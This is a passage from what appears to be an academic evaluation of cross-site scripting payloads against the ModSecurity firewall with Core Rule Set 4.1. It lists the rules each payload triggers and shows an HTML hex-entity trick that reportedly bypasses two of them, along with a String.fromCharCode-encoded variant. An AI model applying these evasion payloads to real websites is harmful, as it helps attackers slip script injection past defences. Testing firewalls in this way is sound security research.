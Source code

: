 \begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss injection blocked, label={lst:storedxssinjblocked}]
<payload><a href=javascript:alert('a')>ClickMeFor$</a></payload>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "259"] [id "941170"]<fileDetails>
<MatchedData>"javascript:alert('a')>ClickMeFor$<"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "357"] [id "941210"]<fileDetails>
<MatchedData>"javascript:a"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

On escaping the first \verb|a| in \verb|javascript:| using the HTML hex character reference, the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

This payload bypasses the rules with ids \verb|941170| (NoScript XSS InjectionChecker: Attribute Injection) and \verb|941210|(IE XSS Filters - Attack Detected). 

As this result is promising, another iteration of applying this technique has been used in the multi iteration evaluation. The results are stated unter Section~\ref{sec:doublehtmlcharref}.

\subsubsection{From charcode}
\label{sec:charcodesingleiter}
As stated under Section~\ref{sec:fromcharcodetech}, a payload where the string containing malicious JavaScript statements was substituted by a call to \verb|String.fromCharCode()| was tested against the ModSecurity firewall using CRS4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=fromCharCode blocked, label={lst:fromcharcodeblocked}]
<payload>String.fromCharCode(^0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29^)</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"String.fromCharCode"</MatchedData>
\end{lstlisting}

